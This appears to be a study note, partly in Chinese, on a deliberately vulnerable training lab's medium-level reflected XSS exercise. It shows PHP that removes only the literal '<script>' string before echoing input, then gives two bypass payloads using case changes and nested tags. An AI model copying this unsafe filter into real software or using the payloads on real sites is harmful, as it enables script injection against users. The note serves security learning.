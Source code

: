 # XSS (Reflected) - Medium

## View Source

```PHP
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

- [`str_replace($a, $b, $c)`](https://www.php.net/manual/en/function.str-replace.php)
    - 將 *c* 內全部的 *a* 換成 *b* 後回傳

## Code Review

- 將 `<script>` 替換成空字串

## Answer

- 因為是類似黑名單的方法，可以透過大小寫變換等繞過

### Example

```
<Script>alert(1)</script>
<scr<script>ipt>alert(1)</script>
```